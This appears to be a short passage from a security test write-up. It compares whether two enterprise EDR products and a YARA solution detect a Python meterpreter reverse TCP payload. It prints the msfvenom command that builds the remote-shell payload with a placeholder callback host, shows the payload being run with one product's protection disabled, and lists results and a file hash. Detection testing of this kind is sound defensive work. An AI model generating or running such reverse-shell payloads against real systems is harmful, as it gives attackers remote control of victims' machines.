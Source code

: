 **Detections**
* Enterprise EDR Solution 1: Yes (Blocked)
* Enterprise EDR Solution 2: No
* Enterprise YARA Solution: Yes

Reverse TCP payload from msfvenom is run.

We run the following on our VM to generate the payload.

`msfvenom -p python/meterpreter/reverse_tcp LHOST=INSERT_IP_HERE LPORT=8080 -o reverse_tcp.py`


We then put this onto our endpoint. Enterprise EDR Solution 1 performs immediate quarantine without execution required. 


To test out Enterprise EDR Solution 2 and Enterprise YARA Solution, “Protect” is disabled on Enterprise EDR Solution 1 and the file is executed.

`python reverse_tcp.py`

Enterprise EDR Solution 2 misses this.

Hashes:

868f6c6262d61876477e8cf84a90bc5b58e6bafea7d5c7421836709b5cdcf79b  reverse_tcp.py


